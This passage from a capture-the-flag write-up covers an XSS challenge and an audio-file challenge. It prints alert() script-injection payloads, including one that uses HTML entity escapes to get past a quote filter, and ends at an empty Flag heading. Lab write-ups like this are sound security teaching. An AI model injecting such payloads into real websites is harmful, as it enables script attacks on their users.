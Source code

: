 ```
</html>

```


**Solution**

It appears we need to inject an *alert('XSS')* statement.

We can trigger a simple alert by entering 

```
<img src=/ onerror=alert(1)>
```

Quotes are filtered, but we can use escape characters:

```
<img src=/ onerror=alert(&#39;XSS&#39;)>
```

A new tweet will appear in the list:
```
the flag is: ADCTF_I_4M_4l3Rt_M4n
```

**Flag**

```
ADCTF_I_4M_4l3Rt_M4n
```

# December 3rd: Listen

**Category**

Misc

**Hint**

*I couldn't listen it, can you?*


**Challenge**

We are given a .wav file: [listen.wav](files/listen.wav)


**Solution**

Opening the file in audacity reveals a normal sound pattern, but the length is calculated to be 42 hours.

Opening the file as raw format, the time corrects to a 3.7 seconds. This is a little fast, but sounds like speech. We slow this down by half and listen to the message:

```
The flag is in all capital letters A-D-C-T-F underscore SOUNDS underscore GOOD
```


**Flag**
